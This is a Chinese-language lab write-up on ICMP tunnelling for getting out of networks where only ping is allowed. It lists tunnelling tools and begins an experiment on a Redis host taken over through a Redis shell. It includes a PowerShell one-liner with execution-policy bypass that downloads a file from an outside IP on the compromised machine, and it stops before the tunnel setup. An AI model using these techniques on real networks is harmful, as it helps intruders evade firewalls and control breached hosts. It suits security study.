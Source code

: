 

# 0x01 ICMP 隧道使用场景


两台机器间，除了允许 icmp 通信（单向或互相 ping），其他的 tcp/udp 端口一律不允许，此时我们就可考虑利用 icmp 隧道进行穿透。

![title](https://leanote.com/api/file/getImage?fileId=5ed7610dab64416dde000885)

利用 icmp 隧道轻松穿透 tcp/udp 四层封锁。


实现的 ICMP 隧道的一些工具，如：

- icmpsh
- PingTunnel
- icmptunnel
- powershell icmp
- ......

我本以为工具就是工具，随便选一个就可以。但其实不是这样。上面这些不同的 ICMP 隧道工具适用于不同的场景，需要根据不同的网络环境进行选择使用。当然，自己写可能是最好的......




# 0x02 实验1：失陷机器单向 ICMP 出网

**网络拓扑：**


![title](https://leanote.com/api/file/getImage?fileId=5ed6e364ab64416dde00024c)

注：这里 redis 没有公网 IP 也可以（其实是我手误配出来一个公网 IP）。此实验中，攻击者控下 ICMP 跳板机的方式是 Redis 拿 shell。其他可能的一些方式如 FTP、MS SQL 拿 Shell......

**连通性测试：**



redis 机器只有 icmp 出网：

```
powershell -nop -Exec Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://47.244.96.168:8888/readme.txt','readme.txt')
```

![title](https://leanote.com/api/file/getImage?fileId=5ed65aaaab644127c2001b3c)


![title](https://leanote.com/api/file/getImage?fileId=5ed65aebab644125c1001ada)

**隧道搭建工具：**

- [pingtunnel](https://github.com/esrrhs/pingtunnel)


开始搭建 ICMP 隧道：

>注：
>
attack 和 redis 谁是 client 端，谁是 server 端呢？
因为现在：
>
- redis 可以 ping 通 attack 机器
- attack 机器无法 ping 通 redis 机器
>
所以很容易理解，attack 机器应该作 icmp 隧道的 server 端，等待连接。redis 机器应该作 icmp 隧道的 client 端，主动去连接 attack 机器。
